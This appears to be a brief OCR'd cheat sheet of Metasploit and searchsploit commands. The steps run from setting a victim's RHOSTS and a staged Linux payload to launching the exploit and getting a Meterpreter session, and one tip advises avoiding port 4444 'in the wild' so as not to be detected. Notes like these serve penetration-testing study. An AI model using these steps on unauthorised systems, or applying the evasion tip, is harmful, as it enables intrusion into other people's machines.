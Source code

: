 
`searchsploit <item>`

`msfconsole`

`search <item>`

`set <num>`

`options`

`set RHOSTS <Victim-IP>`

note: make sure options were set
`options`

note: automatic target not always best
`show targets`

`exploit`

Good output:
Sending stage
Meterperter session opened

Bad output:
Meterperter session closed. Reason: Died

`CTRL-C`

Run `options` again and this time you will see Payload Options

note: sometimes LHOST is not set right. Also dont use port 4444 in wild as it will get picked up

`set payload linux<TAB> <TAB><TAB>`

set to a staged or non-staged shell

`options`
`run`

